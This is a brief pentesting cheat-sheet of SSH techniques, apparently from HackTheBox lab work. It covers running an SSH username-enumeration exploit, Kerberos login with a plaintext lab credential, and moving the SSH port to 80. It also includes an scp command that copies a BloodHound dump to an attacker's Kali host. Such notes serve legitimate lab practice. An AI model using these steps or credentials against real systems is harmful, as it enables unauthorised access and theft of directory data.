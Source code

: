 ### Version < 7.7
```
python sshUsernameEnumExploit.py <IP> -w <wordlist>
```

### Login via kerberos
```
/etc/hosts(顺序必须一摸一样):
10.10.11.60     frizzdc.frizz.htb frizz.htb


/etc/krb5.conf:
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
    }

kinit f.frizzle@FRIZZ.HTB; klist or impacket-getTGT -dc-ip 10.10.11.60 frizz.htb/M.SchoolBus:'!suBcig@MehTed!R' export KRB5CCNAME=f.frizzle.ccache klist

ssh f.frizzle@frizz.htb -K 
```
Solving Permission denied (gssapi-with-mic,keyboard-interactive).
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal
```
### Change ssh port from 22 to 80
```
sudo vim /etc/ssh/sshd_config
Change the port from 22 to 80:
sudo service ssh restart
```
### SCP file transfer
```
scp -P 80 20250425032703_BloodHound.zip kali@10.10.14.3:/home/kali/Desktop/20250425032703_BloodHound.zip
```
### Privare Key
Check
```
openssl rsa -in pkcs11.txt -check
```
### SSH hostkey 
```
ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
```
ssh hostkey indicates the type of private key it accepts
